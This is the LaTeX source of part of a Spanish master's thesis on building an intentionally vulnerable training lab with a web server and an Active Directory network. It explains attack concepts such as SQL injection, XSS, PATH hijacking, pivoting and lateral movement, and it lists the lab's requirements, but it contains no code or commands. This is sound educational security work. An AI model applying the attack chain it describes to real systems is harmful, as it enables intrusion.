
En primer lugar, las vulnerabilidades de control de acceso, autenticación e inyección permiten reproducir el acceso inicial al entorno. En segundo lugar, las configuraciones inseguras, fallos criptográficos y exposición de credenciales facilitan la transición hacia fases de post-explotación. Finalmente, la gestión deficiente de errores y la falta de registro o alerta permiten simular situaciones en las que el atacante puede avanzar sin ser detectado con facilidad.

Por tanto, OWASP Top 10 no se utiliza únicamente como una lista de vulnerabilidades aisladas, sino como una guía para seleccionar debilidades que puedan encadenarse dentro de un escenario ofensivo completo.
% ---------------------------------------------------

\subsection{MITRE ATT\&CK}

MITRE ATT\&CK (\textit{Adversarial Tactics, Techniques and Common Knowledge}) es una base de conocimiento desarrollada por MITRE Corporation que documenta tácticas y técnicas empleadas por atacantes reales durante operaciones ofensivas sobre sistemas informáticos\footweb{mitre_attack}.

A diferencia de OWASP Top 10, cuyo enfoque se centra principalmente en vulnerabilidades presentes en aplicaciones web, MITRE ATT\&CK permite modelar el comportamiento del atacante una vez que se ha iniciado el proceso de compromiso. Para ello organiza las técnicas ofensivas en distintas tácticas que representan objetivos concretos dentro de una intrusión.

En este trabajo, MITRE ATT\&CK se utiliza como referencia para relacionar las diferentes fases del laboratorio con técnicas ampliamente reconocidas por la comunidad de ciberseguridad. De este modo, actividades como la explotación web, la obtención de una reverse shell, la escalada de privilegios o el movimiento lateral pueden asociarse con tácticas descritas dentro del marco ATT\&CK.

\begin{figure}[H]
    \centering

    \begin{tikzpicture}[
        node distance=0.5cm,
        tactical/.style={
            rectangle,
            rounded corners,
            draw=blueColor,
            fill=blue!10,
            minimum width=2cm,
            minimum height=1.2cm,
            align=center,
            font=\footnotesize
        },
        flecha/.style={
            -{Latex[length=2mm]},
            thick
        }
    ]

    \node[tactical] (initial) {Initial\\Access};
    \node[tactical, right=of initial] (execution) {Execution};
    \node[tactical, right=of execution] (priv) {Privilege\\Escalation};
    \node[tactical, right=of priv] (cred) {Credential\\Access};
    \node[tactical, right=of cred] (disc) {Discovery};
    \node[tactical, right=of disc] (lateral) {Lateral\\Movement};

    \draw[flecha] (initial) -- (execution);
    \draw[flecha] (execution) -- (priv);
    \draw[flecha] (priv) -- (cred);
    \draw[flecha] (cred) -- (disc);
    \draw[flecha] (disc) -- (lateral);

    \end{tikzpicture}

    \vspace{0.3cm}
    \captionazul{Tácticas MITRE ATT\&CK relacionadas con la cadena de ataque del laboratorio.}
    \label{fig:mitre_attack_resumido}
\end{figure}

La Figura~\ref{fig:mitre_attack_resumido} resume las tácticas ATT\&CK más relevantes para los escenarios desarrollados en el laboratorio. Estas fases permiten relacionar la explotación práctica realizada durante el TFM con una taxonomía ampliamente utilizada en ejercicios de Red Team, análisis de amenazas y respuesta ante incidentes.

% ---------------------------------------------------

\subsection{SQL Injection}

La inyección SQL (\textit{SQL Injection} o SQLi) es una vulnerabilidad de inyección que aparece cuando una aplicación construye consultas SQL utilizando datos proporcionados por el usuario sin aplicar controles adecuados de validación, parametrización o separación entre datos e instrucciones. OWASP la identifica como una de las vulnerabilidades clásicas dentro de la categoría de inyección\footweb{owasp_sqli_prevention}.

Un atacante puede aprovechar este fallo para modificar la lógica de una consulta legítima y acceder a información no autorizada, alterar datos almacenados o, en determinados escenarios, realizar acciones administrativas sobre la base de datos. La guía de pruebas de OWASP incluye SQL Injection dentro de las técnicas de validación de entrada más relevantes para aplicaciones web\footweb{owasp_wstg_sqli}.

En el contexto de este laboratorio, SQL Injection se utiliza como uno de los posibles vectores de acceso inicial al sistema. Su inclusión permite simular un fallo frecuente en aplicaciones corporativas donde formularios de autenticación, búsqueda o consulta interactúan directamente con una base de datos.

% ---------------------------------------------------

\subsection{Cross-Site Scripting (XSS)}

Cross-Site Scripting (XSS) es una vulnerabilidad que permite introducir código JavaScript no confiable en una página web, de forma que este pueda ejecutarse en el navegador de otros usuarios. OWASP destaca que este tipo de vulnerabilidad puede permitir la ejecución de acciones en nombre de la víctima, el robo de información sensible o la modificación del contenido mostrado por la aplicación\footweb{owasp_xss_prevention}.

Estas vulnerabilidades aparecen cuando una aplicación muestra datos proporcionados por el usuario sin aplicar mecanismos adecuados de validación y codificación de salida. Dependiendo de su funcionamiento, OWASP distingue diferentes variantes, entre las que destacan el XSS reflejado, el XSS almacenado y el XSS basado en DOM\footweb{owasp_xss_types}.

Dentro del laboratorio, XSS se utiliza para representar un fallo habitual en portales web donde existen formularios, campos de entrada o funcionalidades de gestión de contenido. Su implementación permite analizar el impacto de no tratar correctamente los datos introducidos por los usuarios y estudiar cómo una vulnerabilidad de cliente puede afectar a la seguridad global de la aplicación.
% ---------------------------------------------------

\subsection{Vulnerabilidades de carga de archivos (File Upload)}

Las funcionalidades de carga de archivos (\textit{File Upload}) constituyen una superficie de ataque habitual en aplicaciones web modernas, especialmente en portales corporativos que permiten adjuntar documentos, imágenes o evidencias a formularios internos.

Cuando una aplicación no valida correctamente los archivos recibidos, un atacante puede subir contenido malicioso con el objetivo de ejecutar código en el servidor, almacenar ficheros peligrosos o comprometer a otros usuarios del sistema. OWASP destaca que este tipo de funcionalidad debe validar aspectos como la extensión, el tipo MIME, el tamaño, el nombre del archivo y la ubicación final de almacenamiento\footweb{owasp_file_upload}.

En el contexto del laboratorio, esta vulnerabilidad permite representar un escenario realista en el que una funcionalidad aparentemente legítima, como la subida de documentos o adjuntos, puede convertirse en un vector de acceso inicial o facilitar fases posteriores de post-explotación.

% ---------------------------------------------------

\subsection{Exposición de credenciales}

La exposición accidental de credenciales constituye una de las causas habituales de compromiso en entornos corporativos. Este problema puede manifestarse mediante archivos de configuración inseguros, copias de seguridad accesibles, credenciales embebidas en código fuente, variables de entorno expuestas o contraseñas almacenadas sin mecanismos de protección adecuados.

OWASP incluye la protección de datos sensibles y secretos dentro de sus recomendaciones de seguridad, especialmente cuando una aplicación maneja credenciales, claves, tokens o información de autenticación reutilizable\footweb{owasp_secrets_management}.

Una vez obtenidas, estas credenciales permiten a un atacante acceder a nuevos sistemas y ampliar progresivamente el alcance de una intrusión. En entornos reales, la reutilización de contraseñas entre servicios incrementa significativamente el impacto, ya que una credencial comprometida puede servir para acceder a sistemas internos, bases de datos, servicios administrativos o recursos compartidos.

Dentro del laboratorio, la exposición de credenciales se utiliza como mecanismo para conectar la explotación web inicial con fases posteriores de escalada, pivoting y movimiento lateral.

% ---------------------------------------------------

\subsection{Escalada de privilegios en Linux}

La escalada de privilegios engloba el conjunto de técnicas utilizadas para obtener permisos superiores a los inicialmente concedidos a un usuario comprometido. En sistemas Linux, estas técnicas suelen aprovechar configuraciones inseguras, permisos excesivos sobre ficheros, tareas programadas, binarios con privilegios elevados o scripts administrativos mal diseñados.

Desde el punto de vista de MITRE ATT\&CK, la escalada de privilegios constituye una táctica propia cuyo objetivo es obtener un nivel de acceso superior dentro del sistema comprometido\footweb{mitre_privilege_escalation}.

En el laboratorio, esta fase permite transformar un acceso inicial limitado sobre el servidor Ubuntu en un control completo del sistema. Esto resulta fundamental para continuar la cadena ofensiva, ya que permite acceder a información interna, modificar configuraciones, preparar mecanismos de pivoting y obtener credenciales útiles para comprometer otros sistemas de la infraestructura.

% ---------------------------------------------------

\subsubsection{PATH Hijacking}

\textit{PATH Hijacking} es una técnica de escalada de privilegios que aprovecha configuraciones inseguras relacionadas con la variable de entorno \texttt{PATH}. Esta variable define los directorios en los que el sistema busca ejecutables cuando se invoca un comando sin indicar su ruta absoluta.

El riesgo aparece cuando un script o programa ejecutado con privilegios elevados llama a comandos del sistema sin utilizar rutas absolutas. En ese caso, un atacante puede situar un ejecutable malicioso con el mismo nombre en un directorio controlado y modificar el orden de búsqueda de \texttt{PATH} para que dicho ejecutable sea invocado antes que el binario legítimo. La documentación de GNU Bash describe el uso de variables de entorno como \texttt{PATH} y su influencia en la ejecución de comandos dentro del intérprete\footweb{gnu_bash_manual}.

En el laboratorio, esta técnica se utiliza como ejemplo de escalada de privilegios local sobre el servidor Linux comprometido. Su inclusión permite mostrar cómo una mala práctica aparentemente sencilla en un script administrativo puede transformar un acceso limitado en un compromiso completo del sistema.

% ---------------------------------------------------

\subsubsection{Configuraciones inseguras}

Las configuraciones inseguras representan una categoría amplia de vulnerabilidades derivadas de errores administrativos, valores por defecto inseguros o decisiones de configuración incorrectas. Este tipo de debilidad no siempre se debe a un fallo del software, sino a la forma en la que los servicios, permisos o mecanismos de autenticación han sido desplegados.

Entre los ejemplos más habituales se encuentran permisos excesivos sobre archivos, servicios innecesarios habilitados, credenciales por defecto, exposición de directorios sensibles, errores de configuración en servidores web o ausencia de cabeceras de seguridad. OWASP considera \textit{Security Misconfiguration} una de las categorías principales dentro de los riesgos de seguridad en aplicaciones web y destaca que puede afectar tanto a la aplicación como a servidores, bases de datos, frameworks o servicios de infraestructura\footweb{owasp_top10_2025}.

Dentro del laboratorio, las configuraciones inseguras se introducen de forma controlada para aumentar la superficie de ataque y facilitar la construcción de cadenas de explotación realistas. Este tipo de debilidad permite conectar vulnerabilidades web con fases posteriores de post-explotación, escalada de privilegios o acceso a información sensible.

% ---------------------------------------------------

\subsection{Pivoting y segmentación de red}

El \textit{pivoting} es una técnica utilizada para acceder a sistemas o redes que inicialmente no son alcanzables directamente desde la posición del atacante. Para ello, se utiliza un sistema previamente comprometido como punto intermedio desde el que redirigir tráfico, crear túneles o alcanzar segmentos internos de la red.

Esta técnica resulta especialmente relevante en entornos corporativos segmentados, donde los sistemas internos no suelen estar expuestos directamente al exterior. MITRE ATT\&CK recoge distintas técnicas relacionadas con el uso de proxies, túneles y mecanismos de red para canalizar comunicaciones a través de sistemas intermedios comprometidos\footweb{mitre_proxy}.

En el contexto del laboratorio, el servidor Ubuntu vulnerable actúa como punto de apoyo tras el acceso inicial. Una vez comprometido, permite alcanzar la red interna donde se encuentran los sistemas Windows y la infraestructura Active Directory. De esta forma, el laboratorio permite reproducir una situación habitual en intrusiones reales: un servicio expuesto sirve como puerta de entrada hacia sistemas internos protegidos mediante segmentación de red.

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.9\textwidth]{Imagenes/FT-pivoting-segmentacion-redes.png}

    \vspace{0.2cm}
    \captionazul{Ejemplo conceptual de una operación de \textit{pivoting} sobre una red segmentada. Autor: \enlace{https://enfoqueseguro.com/enfoqueseguro/rafael-nunez-aponte-el-arte-del-pivoting-en-ciberseguridad/}{Rafael Núñez Aponte}.}

    \label{fig:fundamento_teorico_pivoting}
\end{figure}




% ---------------------------------------------------
% ---------------------------------------------------
% ---------------------------------------------------
% ---------------------------------------------------
\clearpage

\subsection{Active Directory}

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.6\textwidth]{Imagenes/Active-Directory-logo.jpg}

    \vspace{0.2cm}
    \captionazul{Logotipo de Active Directory.}

    \label{fig:active_directory_logo}
\end{figure}

Active Directory Domain Services (AD DS) es el servicio de directorio de Microsoft utilizado para almacenar información sobre objetos de una red, como usuarios, equipos, grupos y otros recursos. Según la documentación oficial de Microsoft, AD DS proporciona una estructura jerárquica para organizar la información del directorio y hacerla accesible a usuarios y administradores autorizados\footweb{microsoft_ad_ds_overview}.

En entornos corporativos Windows, Active Directory permite centralizar la gestión de identidades, permisos y políticas, facilitando la administración de grandes cantidades de usuarios y equipos. Por este motivo, su compromiso puede tener un impacto elevado dentro de una organización, ya que un atacante con privilegios suficientes sobre el dominio puede acceder a recursos internos, modificar configuraciones o desplazarse hacia otros sistemas.

Dentro de este TFM, Active Directory se utiliza para simular una infraestructura corporativa realista, permitiendo desarrollar escenarios de enumeración, abuso de credenciales, movimiento lateral y compromiso de sistemas internos.

% ---------------------------------------------------

\subsubsection{Componentes principales}

Entre los componentes fundamentales de Active Directory destacan los dominios, bosques, unidades organizativas, controladores de dominio, cuentas de usuario, cuentas de equipo y grupos de seguridad. Microsoft describe la estructura lógica de Active Directory como un modelo jerárquico que permite organizar los recursos de acuerdo con necesidades administrativas, operativas y de delegación\footweb{microsoft_ad_logical_structure}.

Los controladores de dominio son los servidores encargados de almacenar la base de datos del directorio y proporcionar servicios de autenticación y autorización. Además, Active Directory se apoya en DNS para la localización de servicios y en Kerberos como mecanismo principal de autenticación dentro de dominios Windows. Microsoft documenta Kerberos como el protocolo utilizado para verificar la identidad de usuarios y hosts en entornos Windows Server\footweb{microsoft_kerberos_overview}.

En el laboratorio, estos componentes se simplifican mediante un único controlador de dominio, denominado \texttt{DC01}, y una estación de trabajo integrada en el dominio, denominada \texttt{DEV01}. Esta aproximación permite reproducir los elementos esenciales de un entorno corporativo sin incrementar excesivamente la complejidad del despliegue.

% ---------------------------------------------------

\subsubsection{Usuarios, grupos y permisos}

La gestión de permisos dentro de Active Directory se basa principalmente en cuentas de usuario, cuentas de equipo y grupos de seguridad. Los grupos permiten agrupar identidades y asignar permisos de forma centralizada sobre recursos compartidos, simplificando la administración frente a la asignación individual de permisos\footweb{microsoft_ad_security_groups}.

Este modelo facilita la gestión de entornos corporativos, pero también introduce riesgos cuando existen configuraciones incorrectas, privilegios excesivos o pertenencias indebidas a grupos administrativos. Microsoft identifica determinadas cuentas y grupos privilegiados de Active Directory como elementos especialmente sensibles, ya que disponen de permisos elevados para realizar acciones administrativas sobre el dominio y los sistemas unidos a él\footweb{microsoft_ad_privileged_accounts}.

En el contexto del laboratorio, la existencia de diferentes usuarios, grupos y niveles de privilegio permite simular escenarios en los que un atacante obtiene credenciales válidas y las reutiliza para acceder a otros sistemas, enumerar recursos o realizar movimiento lateral dentro de la infraestructura.

% ---------------------------------------------------
\subsection{Protocolos y servicios utilizados}

Diversos protocolos de red desempeñan un papel fundamental dentro de los entornos Windows modernos y suelen constituir objetivos habituales durante las fases de enumeración y post-explotación.

En este laboratorio destacan especialmente los servicios asociados a Active Directory, DNS, SMB y WinRM. Estos protocolos permiten reproducir operaciones habituales de una red corporativa, como la resolución de nombres, la autenticación centralizada, la compartición de recursos y la administración remota de sistemas. Al mismo tiempo, proporcionan una superficie de análisis relevante para estudiar técnicas de enumeración, abuso de credenciales y movimiento lateral.

Desde el punto de vista ofensivo, estos servicios resultan relevantes porque pueden proporcionar información sobre usuarios, equipos, recursos compartidos o mecanismos de acceso remoto. Por ello, su presencia en el laboratorio permite conectar la parte teórica de la infraestructura Windows con los escenarios prácticos de explotación desarrollados posteriormente.

% ---------------------------------------------------

\subsubsection{SMB}

Server Message Block (SMB) es un protocolo de compartición de archivos utilizado en entornos Windows para acceder a ficheros, impresoras y otros recursos a través de la red. Microsoft lo describe como un protocolo de uso compartido de archivos que permite a las aplicaciones leer, crear y actualizar archivos en servidores remotos\footweb{microsoft_smb_overview}.

Su amplia utilización en redes corporativas lo convierte en una fuente importante de información durante las fases de reconocimiento y enumeración. A través de SMB pueden identificarse recursos compartidos, permisos de acceso, nombres de equipos o información útil para fases posteriores del ataque.

En el contexto del laboratorio, SMB permite simular la compartición de recursos internos dentro de la infraestructura Windows y sirve como superficie de análisis durante las fases de enumeración y movimiento lateral.

% ---------------------------------------------------

\subsubsection{WinRM}

Windows Remote Management (WinRM) es la implementación de Microsoft del protocolo WS-Management, diseñado para permitir la administración remota de sistemas Windows mediante un protocolo interoperable y compatible con distintos entornos\footweb{microsoft_winrm_overview}.

En entornos corporativos, WinRM permite ejecutar tareas de administración remota y gestionar equipos Windows de forma centralizada. Desde una perspectiva ofensiva, cuando un atacante dispone de credenciales válidas, este servicio puede utilizarse para obtener acceso remoto interactivo a sistemas comprometidos y ejecutar comandos sobre ellos.

Dentro del laboratorio, WinRM se utiliza para representar un mecanismo de administración remota habitual en infraestructuras Windows. Su inclusión permite estudiar cómo las credenciales obtenidas durante fases anteriores pueden emplearse para acceder a equipos internos y avanzar en la cadena de ataque.

% ---------------------------------------------------

\subsection{Movimiento lateral en entornos Windows}

El movimiento lateral engloba el conjunto de técnicas utilizadas por un atacante para desplazarse entre diferentes sistemas dentro de una infraestructura comprometida. MITRE ATT\&CK define esta táctica como el conjunto de técnicas utilizadas para entrar y controlar sistemas remotos dentro de una red\footweb{mitre_lateral_movement}.

Estas técnicas suelen apoyarse en credenciales obtenidas previamente, relaciones de confianza existentes entre equipos, servicios de administración remota o configuraciones inseguras presentes en el dominio. En entornos Windows, protocolos como SMB y WinRM pueden desempeñar un papel relevante, ya que permiten acceder a recursos compartidos o ejecutar acciones de administración remota.

En entornos Active Directory, el movimiento lateral constituye una fase crítica de la intrusión. Permite al atacante progresar desde sistemas de bajo privilegio hacia recursos de mayor criticidad, como estaciones de trabajo internas, servidores corporativos o controladores de dominio. Por este motivo, el laboratorio incorpora una infraestructura Windows que permite reproducir este tipo de técnicas en un entorno controlado.


% 3 Gestión y metodología del proyecto
\cleartooddpage
\vspace*{-1cm}

\nombreCapituloCabecera{RH}{Gestión y metodología del proyecto} % Título de la sección en la cabecera

\section{Gestión y metodología del proyecto} % Título del capítulo
\label{sec:gestion_y_metodologia_del_proyecto}

% ---------------------------------------------------

\subsection{Metodología de desarrollo}

El desarrollo del proyecto se ha realizado siguiendo una metodología incremental e iterativa. Este enfoque ha permitido construir el laboratorio de forma progresiva, validando cada componente antes de incorporar nuevas funcionalidades o escenarios de ataque.

En una primera fase se diseñó la arquitectura general del laboratorio y se desplegó la infraestructura básica compuesta por una máquina atacante y un servidor web vulnerable. Una vez validado el funcionamiento del entorno inicial, se incorporaron nuevos elementos con el objetivo de aumentar el realismo del escenario, incluyendo una red interna segmentada y una infraestructura Windows basada en Active Directory.

Posteriormente se implementaron las vulnerabilidades presentes en la aplicación web y se desarrollaron los distintos escenarios de explotación. Cada fase fue sometida a pruebas de validación para garantizar la estabilidad del entorno y asegurar la correcta integración de los diferentes componentes.

Este enfoque permitió identificar incidencias de forma temprana, simplificar las tareas de depuración y facilitar la evolución progresiva del laboratorio hasta alcanzar la arquitectura final propuesta.

\subsection{Planificación del proyecto}

La ejecución del proyecto se dividió en varias fases que permitieron abordar de forma estructurada las diferentes tareas necesarias para la construcción del laboratorio.

\begin{enumerate}

    \item \textbf{Análisis de requisitos y definición de objetivos.}

    En esta fase se identificaron las necesidades del proyecto, se definieron los objetivos generales y específicos del laboratorio y se establecieron los requisitos funcionales y no funcionales que debía cumplir la solución final.

    \item \textbf{Diseño de la arquitectura del laboratorio.}

    Se diseñó la estructura general del entorno vulnerable, definiendo los sistemas que formarían parte de la infraestructura, la segmentación de red, los servicios necesarios y las relaciones entre los distintos componentes. La máquina atacante queda fuera del despliegue del laboratorio y deberá ser preparada por el usuario mediante Kali Linux, Parrot OS u otra distribución equivalente.

    \item \textbf{Despliegue de la infraestructura virtual vulnerable.}

    Se procedió a la creación y configuración de las máquinas virtuales que componen el laboratorio vulnerable, incluyendo el servidor web, el controlador de dominio y la estación de trabajo corporativa.

    \item \textbf{Desarrollo de la aplicación web vulnerable.}

    Se implementó una aplicación web orientada a simular un portal corporativo realista, incorporando funcionalidades habituales de gestión de usuarios, clientes, empleados y tickets.

    \item \textbf{Implementación de vulnerabilidades y escenarios de ataque.}

    Se introdujeron vulnerabilidades de forma controlada siguiendo las categorías definidas por OWASP Top 10 y se diseñaron distintos escenarios de explotación que permitieran encadenar varias fases de ataque.

    \item \textbf{Integración de Active Directory y servicios internos.}

    Se desplegó una infraestructura Windows basada en Active Directory para simular una red corporativa interna y permitir la ejecución de técnicas de enumeración, pivoting y movimiento lateral.

    \item \textbf{Automatización del despliegue.}

    Se desarrollaron scripts y procedimientos automatizados destinados a simplificar la instalación, configuración y puesta en marcha del laboratorio vulnerable, mejorando su reproducibilidad.

    \item \textbf{Validación y documentación del entorno.}

    Finalmente, se verificó el correcto funcionamiento de todos los componentes mediante diferentes pruebas de explotación desde una máquina atacante externa y se elaboró la documentación técnica necesaria para facilitar su despliegue y utilización.

\end{enumerate}

La planificación se realizó de forma flexible, permitiendo adaptar el alcance de determinadas tareas a medida que evolucionaba el laboratorio y se identificaban nuevas oportunidades de mejora.

\subsection{Recursos utilizados}

Para el desarrollo del proyecto se han empleado diferentes recursos hardware y software destinados al despliegue de la infraestructura virtual, el desarrollo de la aplicación vulnerable.

\subsubsection{Hardware}

El laboratorio está diseñado para ejecutarse sobre un equipo anfitrión capaz de virtualizar varias máquinas de forma simultánea. Al tratarse de un entorno compuesto por varios sistemas independientes, el recurso más relevante es la memoria RAM disponible, seguida del número de núcleos de CPU y del espacio de almacenamiento reservado para los discos virtuales.

La infraestructura vulnerable desplegada está compuesta por tres máquinas virtuales principales: un servidor Ubuntu Server utilizado como servidor web vulnerable, un controlador de dominio Windows Server 2012 denominado \texttt{DC01} y una estación de trabajo Windows 7 denominada \texttt{DEV01}. Estas tres máquinas constituyen el laboratorio.

La máquina atacante no forma parte de la infraestructura vulnerable como tal, ya que puede plantearse de dos formas distintas. En primer lugar, si el equipo anfitrión utiliza un sistema operativo orientado a seguridad ofensiva, como Kali Linux o Parrot OS, el propio host puede actuar como máquina atacante. En segundo lugar, si el equipo anfitrión utiliza un sistema operativo de propósito general, como Windows, Linux o macOS, será necesario preparar una máquina virtual atacante adicional con Kali Linux, Parrot OS u otra distribución equivalente.

Los recursos mínimos recomendados para las máquinas virtuales del laboratorio son los siguientes:

\vspace{0.5cm}
\newcolumntype{C}[1]{>{\centering\arraybackslash}m{#1}}
\renewcommand{\arraystretch}{1.5}

\begin{table}[h]
    \centering
    \captionazul{Recursos mínimos recomendados para las máquinas virtuales del laboratorio}

    \setlength{\arrayrulewidth}{0.05mm}

    \begin{tabular}{|C{6.5cm}|C{2cm}|C{2cm}|C{2cm}|}
        \hline
        \rowcolor{blue!10}
        \textbf{Máquina Virtual} & \textbf{CPU} & \textbf{RAM} & \textbf{Disco} \\
        \hline
        Servidor web Ubuntu Server 22.04 & 2 cores & 3 GB & 40 GB \\
        \hline
        DC01 Windows Server 2012 & 2 cores & 4 GB & 60 GB \\
        \hline
        DEV01 Windows 7 & 2 cores & 3 GB & 40 GB \\
        \hline
        \rowcolor{red!8}
        Máquina atacante externa (opcional) & 4 cores & 3 GB & 40 GB \\
        \hline
    \end{tabular}
    \renewcommand{\arraystretch}{1}
    \label{tab:recursos_minimos_vm}
\end{table}
\vspace{0.5cm}

A partir de estos valores, el equipo anfitrión debería disponer, como mínimo, de 8 núcleos de CPU, 16 GB de memoria RAM y al menos 200 GB de espacio libre en disco para ejecutar el laboratorio con cierta fluidez. No obstante, se recomienda contar con 32 GB de RAM cuando se desee trabajar simultáneamente con todas las máquinas encendidas y realizar pruebas de explotación de forma cómoda.

En caso de que el usuario no disponga previamente de una máquina atacante, será necesario preparar una máquina adicional con una distribución orientada a seguridad ofensiva. Para este sistema se recomienda asignar 4 núcleos de CPU, 3 GB de RAM y 40 GB de disco, aunque estos recursos pueden variar en función de las herramientas instaladas y del uso previsto.

Por tanto, para un despliegue completo de la infraestructura vulnerable se recomienda que el equipo anfitrión disponga de las siguientes características:

\begin{itemize}
    \item Procesador de 8 núcleos o superior con soporte de virtualización por hardware.
    \item 16 GB de memoria RAM recomendados.
    \item 150 GB de espacio libre en disco como mínimo.
    \item Capacidad para ejecutar VMware Workstation u otra plataforma de virtualización.
\end{itemize}

\begin{figure}[H]
    \centering

    \begin{minipage}{0.48\textwidth}
        \centering
        
\includegraphics[width=\textwidth]{Imagenes/implementacion-VM-en-el-host.png}
        \subcaptionazul{Equipo anfitrión convencional con máquina atacante externa.}
    \end{minipage}
    \hfill
    \begin{minipage}{0.48\textwidth}
        \centering
        
\includegraphics[width=\textwidth]{Imagenes/implementacion-VM-en-el-host-atacante.png}
        \subcaptionazul{Equipo anfitrión actuando como máquina atacante.}
    \end{minipage}

    \captionazul{Escenarios de despliegue del laboratorio: con máquina atacante externa y utilizando el propio equipo anfitrión como atacante.}
    \label{fig:escenarios_despliegue}
\end{figure}

En el caso del despliegue realizado durante el desarrollo del proyecto, el tamaño real ocupado por las máquinas virtuales fue el siguiente:

\begin{figure}[H]
    \centering
    
\includegraphics[width=1\textwidth]{Imagenes/tamaño-lab-en-disco-real.png}

    \vspace{0.2cm}
    \captionazul{Tamaño aproximado del laboratorio desplegado en el equipo anfitrión, incluyendo máquina atacante.}
    \label{fig:tamanio_lab_disco_real}
\end{figure}


Aunque la capacidad máxima asignada a las máquinas virtuales de la infraestructura vulnerable asciende a 140 GB, VMware utiliza discos virtuales de crecimiento dinámico, por lo que el espacio ocupado en disco depende del uso real de cada máquina.

Durante las pruebas realizadas, el laboratorio completo desplegado ocupó aproximadamente 93 GB de almacenamiento en el equipo anfitrión. Por este motivo, se recomienda disponer de al menos 150 GB de espacio libre para desplegar la infraestructura vulnerable con margen suficiente para actualizaciones, instantáneas y crecimiento de los datos.

En caso de utilizar una máquina atacante externa virtualizada, la capacidad máxima asignada al conjunto completo ascendería a aproximadamente 180 GB. Para este escenario, se recomienda disponer de alrededor de 200 GB de espacio libre en el equipo anfitrión.

\subsubsection{Software}

Para el desarrollo del proyecto se utilizaron diferentes sistemas operativos, servicios y herramientas destinados al despliegue del laboratorio, la ejecución de los componentes vulnerables y la gestión de la infraestructura virtual.

En primer lugar, se empleó \textit{VMware Workstation Pro} como plataforma de virtualización, permitiendo crear y gestionar las distintas máquinas virtuales que forman parte del laboratorio. Esta plataforma facilita la configuración de redes virtuales, la asignación de recursos hardware y el uso de instantáneas para restaurar el entorno durante las pruebas.

En relación con el servidor web vulnerable, se utilizó \textit{Ubuntu Server 22.04} como sistema operativo base. Sobre este sistema se desplegaron los servicios necesarios para alojar la aplicación web, incluyendo \textit{Apache HTTP Server}, \textit{PHP} y \textit{MySQL}. Además, se emplearon \textit{Docker} y \textit{Docker Compose} para facilitar el despliegue de los contenedores asociados al laboratorio y mejorar la reproducibilidad del entorno.

La infraestructura de directorio activo se implementó mediante \textit{Windows Server 2012}, configurado como controlador de dominio principal del laboratorio. Este sistema proporciona los servicios de \textit{Active Directory Domain Services}, DNS, SMB y WinRM, necesarios para simular un entorno corporativo Windows. Como estación de trabajo integrada en el dominio se utilizó \textit{Windows 7}, representando un equipo interno accesible desde la red corporativa.

Por último, para la gestión del código fuente y la documentación se utilizaron \textit{Git} y \textit{GitHub}, permitiendo mantener un control de versiones del proyecto, organizar los scripts de despliegue y documentar la evolución del laboratorio.


% \subsection{Coste del proyecto (opcional)}

% El desarrollo del proyecto se ha realizado utilizando principalmente software de libre distribución o licencias académicas, por lo que no ha supuesto costes económicos directos significativos.

% La mayor inversión asociada al proyecto corresponde al tiempo dedicado al diseño, implementación, validación y documentación del laboratorio. Desde una perspectiva académica, el coste puede estimarse en función de las horas de trabajo empleadas durante el desarrollo del TFM.

% Al tratarse de un entorno virtualizado y ejecutado sobre hardware previamente disponible, no ha sido necesario realizar inversiones específicas en infraestructura adicional.


% 4 Análisis del entorno y requisitos
\cleartooddpage
\vspace*{-0.75cm}

\nombreCapituloCabecera{RH}{Análisis del entorno y requisitos}

\section{Análisis del entorno y requisitos}
\label{sec:analisis_del_entorno_y_requisitos}
\vspace{0.7cm}


El diseño de un laboratorio de ciberseguridad requiere definir previamente los requisitos que debe satisfacer el entorno, así como los escenarios de amenaza que se desean reproducir. Este análisis permite establecer una base sólida para el desarrollo de la infraestructura vulnerable y garantizar que los escenarios de ataque implementados resulten representativos de situaciones reales.

El laboratorio desarrollado en este proyecto está orientado a la simulación de una pequeña organización con una infraestructura híbrida compuesta por servicios Linux y Windows. El objetivo principal consiste en proporcionar un entorno controlado donde sea posible reproducir técnicas de reconocimiento, explotación, escalada de privilegios y movimiento lateral utilizadas habitualmente durante ejercicios de Red Team y pruebas de penetración.

% ==========================================================
\subsection{Requisitos funcionales}
% ==========================================================

Los requisitos funcionales describen las capacidades que debe proporcionar el laboratorio para cumplir los objetivos definidos durante el desarrollo del proyecto.

\begin{enumerate}

\item \textbf{Simulación de un entorno corporativo realista.}

